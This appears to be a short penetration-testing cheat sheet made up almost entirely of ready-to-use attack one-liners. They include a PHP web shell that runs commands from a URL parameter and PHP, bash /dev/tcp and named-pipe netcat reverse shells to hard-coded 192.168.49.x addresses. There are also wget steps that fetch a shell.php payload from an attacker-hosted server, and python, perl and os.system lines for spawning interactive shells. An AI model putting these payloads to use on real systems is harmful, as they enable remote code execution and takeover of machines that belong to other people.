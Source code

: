 # Cheat Sheet Page.

**PHP web shell**
`<?php system($_GET[‘cmd’]);?>`

`"<?php passthru('rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c \"cat /tmp/x | /bin/sh -i 2>&1 | nc 192.168.49.80 80 > /tmp/x\"'); ?>"` 

**Bash Reverse shell try Socat/Netcat bind and reverse if this doesn't work**
 `bash -i >& /dev/tcp/<localIP>/<port> 0>&1`

**Named pipe reverse shell**
`mkfifo /tmp/f; nc 192.168.49.132 22 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

**Getting shell through file**

Local system:
`python3 -m http.server <port>`

Attacking system:
`wget http://<ip:port>/shell.php`

**Spawning a shell after callback** 
`python -c 'import pty;pty.spawn("/bin/bash")’`

` echo "os.system('/bin/bash')" `

` perl -e 'exec "/bin/sh";`

